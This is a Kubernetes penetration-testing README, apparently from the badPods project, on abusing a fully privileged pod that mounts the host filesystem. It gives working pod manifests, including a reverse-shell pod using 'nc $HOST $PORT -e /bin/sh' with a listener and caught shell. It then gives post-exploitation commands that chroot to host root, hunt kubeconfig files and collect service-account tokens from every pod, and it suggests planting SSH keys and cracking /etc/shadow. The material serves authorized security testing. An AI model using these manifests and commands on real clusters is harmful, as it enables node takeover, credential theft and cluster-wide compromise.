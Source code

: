 # You can create a pod with all the things
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides multiple potential paths to cluster-admin. 

The pod you create mounts the host's filesystem to the pod. You then exec into your pod and chroot to the directory where you mounted the host's filesystem. You now have root on the node running your pod. One promising privesc path is available if you can schedule your pod to run on the control-plane node using the nodeName selector (not possible in most cloud hosted k8s environments). Even if you can only schedule your pod on the worker node, you can access the node's kubelet credentials or you can create mirror/static pods in any namespace. You can also access any secret mounted within any pod on the node you are on. **In a production cluster, even on a worker node, there is usually at least one pod that has a `token` mounted that is bound to a `service account` that is bound to a `clusterrolebinding`, that gives you access to do things like create pods or view secrets in all namespaces**.  

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[everything-allowed.yaml](everything-allowed.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f everything-allowed.yaml 
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/everything-allowed/everything-allowed.yaml 
```

#### Exec into pod 
```bash
kubectl exec -it everything-allowed -- chroot /host
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-revshell
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  
  volumes:
  - name: noderoot
    hostPath:
      path: /
```
[everything-allowed-revshell.yaml](everything-allowed-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/everything-allowed/everything-allowed-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
~ chroot /host
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
```
```
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/ID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

#### Some other ideas:
* Add your public key authorized_keys on the node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access control-plane nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test. 

   
# Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/
  
